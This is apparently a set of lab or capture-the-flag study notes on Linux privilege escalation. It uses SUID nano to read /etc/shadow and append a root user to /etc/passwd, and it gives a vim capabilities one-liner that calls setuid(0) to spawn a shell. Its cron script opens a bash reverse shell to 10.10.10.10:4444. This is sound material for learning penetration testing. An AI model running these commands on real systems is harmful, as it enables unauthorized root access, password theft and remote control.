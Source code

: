 ## Unshadow

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.  

Below are simple steps using both vectors.  
  
reading the `/etc/shadow` file  
  
We see that the nano text editor has the SUID bit set by running the `find / -type f -perm -04000 -ls 2>/dev/null` command.  
  
`nano /etc/shadow` will print the contents of the `/etc/shadow` file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.

### Add Hash

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

![](https://i.imgur.com/bkOGaHY.png)  

We will then add this password with a username to the `/etc/passwd` file. 

![](https://i.imgur.com/huGoEtj.png)

Once our user is added (please note how `root:/bin/bash` was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

![](https://i.imgur.com/HZcWGhi.png)

### Capabilities

```shell
getcap -r / 2>/dev/null
```

https://gtfobins.github.io/gtfobins/vim/#capabilities

```shell
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

### Cron jobs

`/etc/crontab`

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
